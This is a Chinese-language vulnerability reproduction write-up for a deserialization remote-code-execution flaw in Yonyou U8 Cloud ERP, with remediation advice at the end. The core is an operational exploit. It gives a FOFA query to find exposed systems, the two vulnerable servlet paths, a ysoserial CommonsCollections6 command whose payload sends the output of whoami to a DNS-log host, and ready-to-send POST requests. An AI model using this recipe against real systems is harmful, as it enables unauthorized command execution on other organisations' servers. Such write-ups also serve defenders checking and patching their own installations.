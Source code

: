 
# 用友U8 Cloud 反序列化RCE漏洞复现

### 0x01 产品简介

     用友U8 Cloud是用友推出的新一代云ERP，主要聚焦成长型、创新型企业，提供企业级云ERP整体解决方案。

### 0x02 漏洞概述

   用友U8 Cloud存在多处（FileManageServlet和LoginVideoServlet）反序列化漏洞，系统未将用户传入的序列化数据进行过滤就直接执行反序列化操作，结合系统本身存在的反序列化利用链，最终造成远程代码执行。

### 0x03 影响范围

    用友U8 Cloud 所有版本

### 0x04 复现环境

FOFA：app="用友-U8-Cloud"

![382252d9fc41453b9a7fa23584a3a67f.png](assets/1699406333-60abbee1f79f2aef2f392c4b07bfc936.png)

### 0x05 漏洞复现

两处接口的反序列化漏洞路径：

```cobol
/servlet/~uap/nc.impl.pub.filesystem.FileManageServlet
/servlet/~uap/nc.bs.sm.login2.LoginVideoServlet
```

PS：用友的反序列化漏洞大部分cc6就可以直接打，post请求传入反序列化的二进制数据 就可以进行命令执行，ysoserial工具集成了多种cc链，感兴趣的可以研究研究

工具地址：[https://github.com/frohoff/ysoserial/releases/tag/v0.0.6](https://github.com/frohoff/ysoserial/releases/tag/v0.0.6 "https://github.com/frohoff/ysoserial/releases/tag/v0.0.6")

构造序列化数据(jdk1.8)

```cobol
java -jar ysoserial-all.jar CommonsCollections6 "ping `whoami`.l4z6nq7x.dnslog.pw" >4.ser
```

 PoC

![176d64f380e941cbb0e8b7de24f4eb8d.png](assets/1699406333-7eae4d74e076ca6043234a3d5070148d.png) ![3afa1c9bfaeb45a3a8cb99ba91f922eb.png](assets/1699406333-c2b1169d4a40ef23ae616a906f3dbb9e.png)

```handlebars
POST /servlet/~uap/nc.impl.pub.filesystem.FileManageServlet HTTP/1.1
Host: your-ip
Content-Type: *

{{file(C:\Users\m1813\Desktop\4.ser)}}
```

```handlebars
POST /servlet/~uap/nc.bs.sm.login2.LoginVideoServlet HTTP/1.1
Host: your-ip
Content-Type: *

{{file(C:\Users\m1813\Desktop\4.ser)}}
```

PS：里面生成序列化数据文件的路径自行修改 

![14efce9e7ce84a86a7e062786f63d4fd.png](assets/1699406333-b57d3b68ca1b9bb9a8229f8aa92821ab.png)

![0c40514c2bcd40749a8a985dda1a4186.png](assets/1699406333-daf90c0bc6d53db5a44337add3b09223.png)

![e823be4103cb49f89a223e88ad6eda97.png](assets/1699406333-5af93c219c722f5aef8eec0d707da993.png)

两个路径都可以打，自行测试 

### **0x06 修复建议**

**官方修复方案**：  
用友安全中心已发布官方补丁：  
https://security.yonyou.com/#/noticeInfo?id=400  
https://security.yonyou.com/#/noticeInfo?id=399

  
**临时修复方案：**  
使用ACL网络策略限制访问来源；  
使用防护类设备对/servlet/~uap/nc.impl.pub.filesystem.FileManageServlet和/servlet/~uap/nc.bs.sm.login2.LoginVideoServlet路径进行防护。
